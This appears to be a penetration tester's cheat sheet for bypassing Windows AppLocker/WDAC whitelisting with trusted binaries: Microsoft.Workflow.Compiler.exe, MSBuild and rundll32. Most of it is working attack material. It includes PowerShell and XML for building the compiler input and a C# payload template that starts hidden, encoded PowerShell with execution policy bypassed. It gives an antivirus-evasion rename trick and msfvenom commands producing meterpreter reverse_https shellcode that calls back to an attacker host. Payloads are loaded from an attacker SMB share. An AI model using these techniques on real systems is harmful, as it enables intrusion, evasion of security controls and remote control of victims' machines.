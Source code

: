 ### Method 1: Microsoft.Workflow.Compiler.exe

    //works if FileIntegrity is not enabled - AppLocker fine, may not work for WDAC
    //Microsoft.Workflow.Compiler accepts two arguments. The first must be the path to an XML file containing compiler flags and the path to a file containing C# code. The C# file will be compiled and loaded into memory without restrictions.
    //the file containing code we provide must contain a class that inherits from the Activity class of the System.Workflow.ComponentModel namespace and must contain the code we want to execute inside its constructor
    //we can simply pass a random file name as the second command line argument
    //In summary, we must craft a file containing C# code, which implements a class that inherits from the Activity class and has a constructor. The file path must be inserted into the XML document along with compiler parameters organized in a serialized format.
    //Downside: XML and C# files on disk, plus C# temporarily compiled to disk

    //*STEP 1: create serialized XML input file w/ PS:
        //*Or just use the known format (from MicrosoftWorkflowCompilerBypass file)
        $workflowexe = "C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe"
        $workflowasm = [Reflection.Assembly]::LoadFrom($workflowexe)
        $SerializeInputToWrapper = [Microsoft.Workflow.Compiler.CompilerWrapper].GetMethod('SerializeInputToWrapper', [Reflection.BindingFlags] 'NonPublic, Static')
        Add-Type -Path 'C:\Windows\Microsoft.NET\Framework64\v4.0.30319\System.Workflow.ComponentModel.dll'
        $compilerparam = New-Object -TypeName Workflow.ComponentModel.Compiler.WorkflowCompilerParameters
        $compilerparam.GenerateInMemory = $True
        $pathvar = "payload.txt"
        $output = "C:\Tools\info.xml"
        $tmp = $SerializeInputToWrapper.Invoke($null, @([Workflow.ComponentModel.Compiler.WorkflowCompilerParameters] $compilerparam, [String[]] @(,$pathvar)))
        Move-Item $tmp $output
        
    //*Ensure current user can access the generated file:
        $Acl = Get-ACL $output;$AccessRule= New-Object System.Security.AccessControl.FileSystemAccessRule("student","FullControl","none","none","Allow");$Acl.AddAccessRule($AccessRule);Set-Acl $output $Acl
        
    //*POC code file - payload.txt (saved on disk, referenced by the serialized xml file) - put the exploit here!
        using System;
        using System.Workflow.ComponentModel;
        public class Run : Activity{
        public Run() {
        Console.WriteLine("I executed!");
        }
        }
        
    //*STEP 2: run the code!
        C:\Windows\Microsoft.NET\Framework\v4.0.30319\Microsoft.Workflow.Compiler.exe info.xml results.xml
        //Might have to rename for AV:
            copy C:\Windows\Microsoft.NET\Framework\v4.0.30319\Microsoft.Workflow.Compiler.exe test.exe
            test.exe info.xml results.xml

    ######info.xml:######
    <?xml version="1.0" encoding="utf-8"?>
    <CompilerInput xmlns:i="http://www.w3.org/2001/XMLSchema-instance" xmlns="http://schemas.datacontract.org/2004/07/Microsoft.Workflow.Compiler">
    <files xmlns:d2p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays">
    <d2p1:string>payload.txt</d2p1:string>
    </files>
    <parameters xmlns:d2p1="http://schemas.datacontract.org/2004/07/System.Workflow.ComponentModel.Compiler">
    <assemblyNames xmlns:d3p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
    <compilerOptions i:nil="true" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
    <coreAssemblyFileName xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler"></coreAssemblyFileName>
    <embeddedResources xmlns:d3p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
    <evidence xmlns:d3p1="http://schemas.datacontract.org/2004/07/System.Security.Policy" i:nil="true" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
    <generateExecutable xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler">false</generateExecutable>
    <generateInMemory xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler">true</generateInMemory>
    <includeDebugInformation xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler">false</includeDebugInformation>
    <linkedResources xmlns:d3p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
    <mainClass i:nil="true" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
    <outputName xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler"></outputName>
    <tempFiles i:nil="true" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
    <treatWarningsAsErrors xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler">false</treatWarningsAsErrors>
    <warningLevel xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler">-1</warningLevel>
    <win32Resource i:nil="true" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
    <d2p1:checkTypes>false</d2p1:checkTypes>
    <d2p1:compileWithNoCode>false</d2p1:compileWithNoCode>
    <d2p1:compilerOptions i:nil="true" />
    <d2p1:generateCCU>false</d2p1:generateCCU>
    <d2p1:languageToUse>CSharp</d2p1:languageToUse>
    <d2p1:libraryPaths xmlns:d3p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays" i:nil="true" />
    <d2p1:localAssembly xmlns:d3p1="http://schemas.datacontract.org/2004/07/System.Reflection" i:nil="true" />
    <d2p1:mtInfo i:nil="true" />
    <d2p1:userCodeCCUs xmlns:d3p1="http://schemas.datacontract.org/2004/07/System.CodeDom" i:nil="true" />
    </parameters>
    </CompilerInput>

    ######payload.txt Template:######
    using System;
    using System.Diagnostics;
    using System.Workflow.Activities;
    
    public class Foo : SequentialWorkflowActivity {
        public Foo() {
            Process process = new Process();
            // Configure the process using the StartInfo properties.
            process.StartInfo.FileName = "powershell.exe";
            process.StartInfo.Arguments = "-WindowStyle Hidden -NoP -NoLogo -exec Bypass -enc <BASE64_PWSH_CMD>";
            process.StartInfo.WindowStyle = ProcessWindowStyle.Normal;
            process.Start();
            process.WaitForExit();
        }
    }

### **Method 2: MSBuild.exe**

    //can build/execute a .csproj or .xml file w/ .net

    //To run:
        C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe \\192.168.49.121\visualstudio\Hollow\Hollow.csproj

    **Automated payload generator:  https://github.com/Mr-Un1k0d3r/PowerLessShell
        //can use shellcode, etc. to create a .csproj file
        cd /home/kali/data/PowerLessShell
        //Convert .ps1 file:  python2 PowerLessShell.py -type powershell -source script.ps1 -output mal.csproj
        //Convert shellcode:  
            msfvenom -p windows/x64/meterpreter/reverse_https LHOST=tun0 LPORT=443 -f raw > shellcode.raw
            python2 PowerLessShell.py -source shellcode.raw -output mal.csproj [-arch 64]
            C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe \\192.168.49.121\visualstudio\PowerLessShell\mal.csproj

### Another Method - Charlotte.py/rundll32

    msfvenom -p windows/x64/meterpreter/reverse_https LHOST=tun0 LPORT=443 -f raw > beacon.bin
    python charlotte.py
    rundll32 \\192.168.49.121\visualstudio\charlotte\charlotte.dll, uVQeohpkFi

### Another Method - PowerSharpPack.ps1
- https://github.com/S3cur3Th1sSh1t/PowerSharpPack
- includes Rubeus, SharpUp, etc.